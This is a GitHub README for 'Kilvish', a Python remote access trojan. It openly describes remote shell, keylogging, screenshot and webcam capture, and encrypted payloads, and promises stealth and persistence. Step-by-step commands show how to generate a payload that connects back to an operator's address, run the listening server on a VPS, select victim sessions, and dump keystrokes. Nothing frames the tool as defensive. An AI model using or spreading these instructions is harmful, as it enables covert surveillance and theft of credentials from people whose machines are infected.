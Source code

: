 <h1 align="center"> 
    <img src="https://github.com/siddhant385/Kilvish/blob/master/.github/kilvish.jpg" alt="KILVISH" /> <br>    
    KILVISH
</h1>
<p align="center">
    <a href="#" target="_blank"><img src="https://img.shields.io/badge/platform-cross-important" alt="platform: cross" /></a>
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/siddhant385/Kilvish/releases" target="_blank"><img src="https://img.shields.io/badge/version-v1.0-blue.svg?logo=moo" alt="Release: v1.0" /></a>
    <a href="https://opensource.org/licenses/MIT" target="_blank"><img src="https://img.shields.io/badge/license-MIT-green.svg" alt="lisence" /></a>
</p>
<h4 align="center"> A Cross Platform multifunctional (Windows/Linux/Mac) RAT.</h4>

<h6 align="center"><img src="https://github.com/siddhant385/Kilvish/blob/master/.github/1.png"></h6>

## Getting Started
### Description
A cross platform RAT written in pure Python. The RAT accept commands alongside arguments to either perform as the server who accepts connections or to perform as the client/target who establish connections to the server. The **generate** command uses the module **pyinstaller** to compile the actual payload code. So, in order to generate payload file for your respective platform, you need to be on that platform while generating the file. Moreover, you can directly get the source file as well. 

### Features
<ul>
    <li>Built-in Shell for command execution</li>
    <li>Dumping System Information including drives and rams</li>
    <li>Screenshot module. Captures screenshot of client screen.</li>
    <li>Webcam module. Captures Webcam of client screen.(Thanks to Bainky/RAT)</li>
    <li>Connection Loop (Will continue on connecting to server)</li>
    <li>Currently, it uses BASE64 encoding for connection. </li>
    <li>Encrypts the payload using AES Encryption (Thanks to pushpendraindia)</li>
    <li>Pure Python</li>
    <li>Cross Platform. (Tested on Linux. Errors are accepted)</li>
    <li>Source File included for testing</li>
    <li>Python 3</li>
</ul>

### To be expected in future
<ul>
    <li>Stealth Execution</li>
    <li>Persistence</li>
    <li>Encryption</li>
    <li>Storing Sessions from last attempt</li>
    <li>Pushing Notifications when a client connects</li>
</ul>

### Installation
The tool is tested on **Windows 10** with **Python 3.9**. 
Follow the steps for installation:
```
$ git clone https://github.com/siddhant385/Kilvish.git
$ cd Kilvish/
$ pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>
The source file is to remain same on all platforms. So, you can generate it on one platform and use it on the other. Getting the source file: 

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/payload.py --source
```

The compiled version has to generated on the respective platform. For example, you can't generate an .exe file on Linux. You specifically have to be on Windows. The tool is still under testing. So, all kinds of errors are accepted. Make sure to open an issue though. Generating the Compiled Version for Linux:

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/filer
```

<h6 align="center"><img src="https://github.com/siddhant385/Kilvish/blob/master/.github/2.png"></h6>

Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Linux. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
$ python3 kilvish.py bind --address 0.0.0.0 --port 2999
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

<h6 align="center"><img src="https://github.com/siddhant385/Kilvish/blob/master/.github/3.png"></h6>

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

<h6 align="center"><img src="https://github.com/siddhant385/Kilvish/blob/master/.github/4.png"></h6>

### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

### Support


### ORIGINAL CREATOR
Twitter: <a href="//twitter.com/hash3liZer">@hash3liZer</a><br>
Discord: TheFlash2k#0407
